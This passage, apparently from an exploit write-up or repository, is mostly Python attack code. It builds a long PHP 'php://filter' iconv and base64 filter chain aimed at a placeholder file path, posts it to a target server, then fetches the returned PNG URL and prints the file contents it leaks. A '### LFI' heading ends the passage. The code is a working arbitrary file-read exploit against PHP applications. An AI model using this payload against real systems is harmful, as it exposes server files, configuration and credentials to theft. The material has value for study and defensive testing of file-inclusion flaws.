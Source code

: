 ```python
    f"php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource={file_to_read}"
)

try:
    response = requests.post(url, headers=headers, data=data)
    if response.status_code == 200:
        result = response.json()
        if result.get("status") == "OK":
            file_url = result.get("response")
            if file_url.endswith(".png"):
                print(f"PNG URL: {file_url}")
                try:
                    file_response = requests.get(file_url)
                    if file_response.status_code == 200:
                        print("File Contents:")
                        print(file_response.text)
                    else:
                        print(f"Failed to retrieve file. Status code: {file_response.status_code}")
                except Exception as e:
                    print(f"An error occurred while fetching the file: {e}")

        else:
            print("Error: Status is not OK")
    else:
        print(f"Error: Received status code {response.status_code}")

except Exception as e:
    print(f"An error occurred: {e}")

```

### LFI
